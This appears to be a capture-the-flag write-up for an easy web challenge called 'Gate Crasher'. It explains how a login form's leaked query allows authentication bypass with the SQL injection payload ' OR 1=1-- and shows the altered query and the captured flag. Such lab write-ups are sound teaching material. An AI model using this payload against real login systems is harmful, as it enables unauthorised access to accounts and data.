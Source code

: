 # CTF Challenge Writeup: SQL Injection Authentication Bypass  
**Challenge Name:** Gate Crasher  
**Category:** Web Exploitation  
**Difficulty:** Easy  
**Author:** M4hd1Dbh 

---

## Challenge Description  
It echoes something back… but what exactly? Maybe there’s more behind this form than meets the eye.
                  Sometimes silence is just the system thinking... or leakin. 

**Hint:** Try to get the privilege the system offers.  

---

## Solution Walkthrough  

### Step 1: Analyzing the Login Form  
The challenge presents a simple login page with fields for `username` and `password`.  

- Attempting random credentials (`admin:password`) fails with:  
``Invalid credentials``

- A debug message reveals the SQL query structure:     
Debug: ``SELECT * FROM users WHERE username = '[user]' AND password = '[pass]'``
This indicates a **SQL Injection (SQLi)** vulnerability due to unsanitized user input.  

---

### Step 2: Crafting the SQL Injection Payload  
The goal is to bypass authentication by manipulating the SQL query.  

#### Payload:  
`' OR 1=1-- `
- `'` closes the username string

- `OR 1=1` forces the condition to always be true

- `--` comments out the rest of the query (including the password check)

Input:

    Username: ' OR 1=1--

    Password: (Leave empty or enter anything)

---

### Step 3: Exploiting the Vulnerability

After submitting the payload, the query becomes:

`SELECT * FROM users WHERE username = '' OR 1=1-- ' AND password = ''`

  since `1=1` is always true, the query returns the first user (typically admin)

  The application responds with:
    text

    Welcome admin! Flag: ghctf{SQL_1nj3ct10ns_m4st3r}

Flag Captured!